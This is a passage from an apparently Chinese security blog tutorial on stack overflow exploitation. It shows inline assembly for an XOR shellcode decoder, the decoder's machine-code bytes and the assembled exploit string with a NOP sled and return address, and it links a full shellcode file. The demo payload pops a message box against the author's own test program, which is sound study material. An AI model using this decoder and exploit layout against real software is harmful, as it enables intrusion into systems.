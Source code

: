 而寄存器EDX却保存了Buffer的起始地址

所以，我们需要对解码器作修改

**(6) 修改解码器**

选择一个最简单直接的方法，将EDX对准shellcode的起始位置，实现的汇编代码如下：


```
void main()
{
	__asm
	{
		add edx,0x14
		xor ecx,ecx
decode_loop:
		mov bl,[edx+ecx]
		xor bl,0x44
		mov [edx+ecx],bl
		inc ecx
		cmp bl,0x90
		jne decode_loop

	}
}
```

在OllyDbg中加载程序并提取机器码，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-2-24/2-10.png)

新的解码器机器码为：

`"\x83\xC2\x14\x33\xC9\x8A\x1C\x0A\x80\xF3\x44\x88\x1C\x0A\x41\x80\xFB\x91\x75\xF1"  `



最终的shellcode代码为：

`"\x83\xC2\x14\x33\xC9\x8A\x1C\x0A\x80\xF3\x44\x88\x1C\x0A\x41\x80\xFB\x91\x75\xF1"+加密的弹框实例shellcode+0xD5+"\x90\x90\x90\x90\x90\x90\x90"+"\x7C\xFB\x12\x00"`

完整shellcode代码已上传至github，地址为：

https://github.com/3gstudent/Shellcode-Generater/blob/master/stackoverflowshellcode.bin



再次测试栈溢出，如图，shellcode成功执行

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-2-24/2-11.png)

由于shellcode是我们自己实现的动态获取API地址，所以栈溢出测试程序中的LoadLibrary("user32.dll"); 可以省略

## 0x04 小结
---

本文对栈溢出原理作了简要描述，着重介绍了在具体的栈溢出环境下，shellcode的优化、调试和利用技巧 

当然，上述shellcode存在一个不足：shellcode在内存中的起始地址往往不固定，导致漏洞利用不一定成功

下一篇文章将要解决这个问题

---

[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)







